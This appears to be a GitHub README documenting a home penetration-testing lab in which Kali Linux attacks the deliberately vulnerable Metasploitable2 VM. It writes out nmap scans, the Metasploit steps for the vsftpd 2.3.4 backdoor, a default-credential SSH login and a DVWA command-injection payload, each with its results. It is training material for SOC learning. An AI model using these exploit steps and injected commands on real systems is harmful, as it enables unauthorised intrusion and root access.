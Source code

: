 # kali-metasploitable-lab
Penetration testing sim using Kali Linux and Metasploitable2

# Kali Linux & Metasploitable2: Penetration Testing Lab

This project simulates an internal network attack scenario using Kali Linux (attacker) and Metasploitable2 (target). It demonstrates core reconnaissance, exploitation, and post-exploitation techniques aligned with SOC Analyst learning objectives.

---

## Lab Setup

| Component      | Details                        |
|----------------|--------------------------------|
| Attacker       | Kali Linux (UTM VM)            |
| Target         | Metasploitable2 (UTM VM)       |
| Network        | Shared NAT / Bridged           |
| Connectivity   | Confirmed via ping             |

---

## Phase 1: Reconnaissance

### Target IP: `192.168.64.3`

#### Basic Nmap Scan
```bash
nmap -sS -T4 192.168.64.3 -oN basic-scan.txt
```
Summary of Open Ports:
- 21 (FTP)
- 22 (SSH)
- 80 (HTTP)
  
#### Service Version Detection
```bash
nmap -sS -sV -T4 192.168.64.3 -oN version-scan.txt
```
Summary:
- FTP: vsftpd 2.3.4
- SSH: OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
- HTTP: Apache 2.2.8
  
#### Vulnerability Detection
```bash
nmap --script vuln -T4 192.168.64.3 -oN vuln-scan.txt
```
Summary: 
- Port 21 (FTP) - VULNERABLE to vsftpd 2.3.4 backdoor (CVE-2011-2523)
- Port 80 (HTTP) - Apache version outdated with multiple CVEs


---

## Phase 2: Exploitation

### Exploit: vsftpd 2.3.4 Backdoor (CVE-2011-2523)

#### Tool Used: Metasploit Framework

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.64.3
exploit
```

Result: 
* Successful shell access as `root`
* Verified with ```whoami```


---

### SSH Exploit

**Target IP:** 192.168.64.3  
**Tool Used:** Native OpenSSH Client

**Login Attempt:**
```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.64.3
```

Result: 
* Successful login using default credentials:
  * Username: `msfadmin`
  * Password: `msfadmin`
* Access confirmed with:
  ```whoami```

#### Compatibility Issue: Legacy SSH Key Algorithms

**Problem Encountered**
```Unable to negotiate with 192.168.64.3 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss```

**Solution**
```ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.64.3```

Lessons Learned:
Modern SSH clients disable insecure key types by default. In these lab scenarios with outdated systems compatibility flags may be required to access vulnerable targets. SOC teams should monitor for these depreciated cryptographic negotiations as potential attack indicators.


---

### HTTP Exploit – DVWA Command Injection (Port 80)

**Target URL:** http://192.168.64.3/dvwa/vulnerabilities/exec/  
**Authentication:**  
- Username: `admin`  
- Password: `password`

**DVWA Configuration:**
- Set security level to `Low` under the "DVWA Security" tab

**Exploit Method:**
- Injected shell command via the IP input field:
```bash
127.0.0.1; whoami
```

**Output:**
```PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.014 ms
...
www-data
```

Result:
* Confirmed server responded with user `www-data`
* Successfully executed  arbitrary command (`whoami`)
